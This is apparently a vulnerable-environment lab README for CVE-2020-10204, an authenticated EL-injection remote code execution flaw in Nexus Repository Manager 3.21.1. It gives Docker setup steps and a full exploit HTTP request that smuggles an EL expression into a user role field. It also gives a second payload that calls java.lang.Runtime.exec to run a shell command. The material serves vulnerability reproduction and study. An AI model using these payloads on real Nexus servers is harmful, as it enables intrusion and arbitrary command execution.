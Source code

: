 # Nexus Repository Manager 3 Authenticated Remote Code Execution (CVE-2020-10204)

[中文版本（Chinese version）](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

In the version <= 3.21.1, a EL injection vulnerability has been discovered that allows for an attacker with an administrative account on Nexus Repository to execute arbitrary code by crafting a malicious request to Nexus Repository. This issue is patch bypass of CVE-2018-16621.

References:

- https://support.sonatype.com/hc/en-us/articles/360044356194-CVE-2020-10204-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10204/README.md
- https://github.com/jas502n/CVE-2020-10199

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.21.1:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus. Login the admin panel with administrator account `admin:admin` and finish the initialize wizard.

## Exploit

Copy your cookie and CSRF token then send following request:

```
POST /service/extdirect HTTP/1.1
Host: your-ip
Content-Length: 223
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: [csrf-token]
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.3:8081
Referer: http://192.168.1.3:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=[csrf-token]; NXSESSIONID=[sessionid]
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["nxadmin$\\B{233*233}"]}],"type":"rpc","tid":11}
```

As you can see, EL expression `233*233` is executed:

![](1.png)

Refer to <https://github.com/jas502n/CVE-2020-10199>, use EL expression payload `$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}` to execute command `touch /tmp/success`:

![](2.png)
